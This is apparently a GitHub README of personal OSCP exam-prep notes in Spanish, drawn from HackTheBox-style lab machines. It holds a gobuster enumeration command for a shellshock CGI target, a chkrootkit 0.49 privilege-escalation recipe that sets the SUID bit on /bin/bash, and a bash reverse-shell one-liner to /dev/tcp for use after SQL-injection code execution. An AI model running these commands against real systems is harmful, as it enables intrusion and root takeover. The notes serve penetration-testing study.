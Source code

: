 # OSCP preparation

## List
- [**Windows Active Directory**](./winad.md)
- [**Shell Management**](./shellMGT.md)
- [**General enumeration**](./enum.md)
- [**Engagement Structure**](https://academy.hackthebox.com/module/39/section/384)
- [**File transfers**](./fileTransfer.md)
- [**Metasploit tricks**](./msf.md)


## Extras


### En una maquina que pwnee que tenía la vuln shellshock, fue clave la enumeración para poder explotar la misma
```
❯ gobuster dir -u http://10.10.10.56/cgi-bin -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -t 400 -x cgi,php,sh --add-slash
```

#### el -x sh me dió la enumeración correcta

Sí encuentro el puerto 53 es conveniente seguir la siguiente guía de enumeración
https://book.hacktricks.xyz/network-services-pentesting/pentesting-dns

### Vulnerabilidad en chkrootkit versión 0.49. Para evitar usar metasploit, sirve chequear:
[https://www.exploit-db.com/exploits/33899](https://www.exploit-db.com/exploits/33899)

```
cat /etc/cron.daily

/usr/bin/chkrootkit
ls -la /usr/bin/chkrootkit     // Do we have SUID?
chkrootkit -V
echo "#!/bin/bash" > /tmp/update
echo "chmod +s /bin/bash" >> /tmp/update
Wait a While ...
/bin/bash -p
whoami
```

### Problemas para reverse shell dentro de sqli

Hay veces que cuando puedo obtener RCE mediante una sqli porque tengo acceso de escritura con el user de la db que maneja la aplicación web no siempre me quiere ejecutar bien una revshell, pero con esto sí:

```
bash -c 'bash -i >& /dev/tcp/$IP/$PORT 0>&1'
```

es el único que me vino funcionando en 2 maquinas de SQLI